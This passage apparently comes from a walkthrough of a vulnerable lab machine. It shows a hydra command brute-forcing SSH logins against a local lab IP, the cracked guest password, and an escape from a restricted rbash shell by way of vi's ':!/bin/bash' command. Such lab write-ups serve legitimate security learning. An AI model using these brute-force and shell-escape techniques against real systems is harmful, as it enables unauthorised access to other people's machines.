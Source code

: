 That creates a file named "list.txt" with possible passwords. I then use hydra to bruteforce ssh:

```
hydra -l guest -P list.txt 192.168.56.103 ssh
```

After running for a while, the following password works:

```
[22][ssh] host: 192.168.56.103   login: guest   password: k1ll0r7n
```

So I log into the machine via ssh and can't run any commands:

```
guest@porteus:~$ ls
-rbash: /bin/ls: restricted: cannot specify `/' in command names
guest@porteus:~$ whoami
-rbash: whoami: command not found
guest@porteus:~$ cd ..
-rbash: cd: restricted
guest@porteus:~$ cat /etc/passwd
-rbash: cat: command not found
```

So it seems i'm running a restricted shell, but there's a way of escaping it: using the TAB button. When I type in "ls /" and press TAB, the available directories in "/" are shown to me, so I type in "ls /home/guest/", press TAB and this is what I get:

```
guest@porteus:~$ ls /home/guest/
.Xauthority    .bashrc        .dbus/         .gnupg/        Desktop/       Music/         Videos/
.bash_history  .cache/        .esd_auth      .local/        Documents/     Pictures/      prog/
.bash_profile  .config/       .gksu.lock     .ssh/          Downloads/     Public/
```

The directory that stands out in this listing is the "prog", so I type in "ls /home/guest/prog/" and when I press TAB it automatically fills in "ls /home/guest/prog/vi". Could that mean I'm allowed to run vi? YES! (afterwards I learn that I could have just typed in "echo $PATH" and I would've found out guest's path is /home/gues/prog).

A funny thing about vi is that there's a way of running commands from inside a vi prompt, by typing ":!\[COMMAND\]", so I do it: enter vi command and type in ":!/bin/bash" to escape it:

```
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
bash: grep: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
guest@porteus:~$ 
```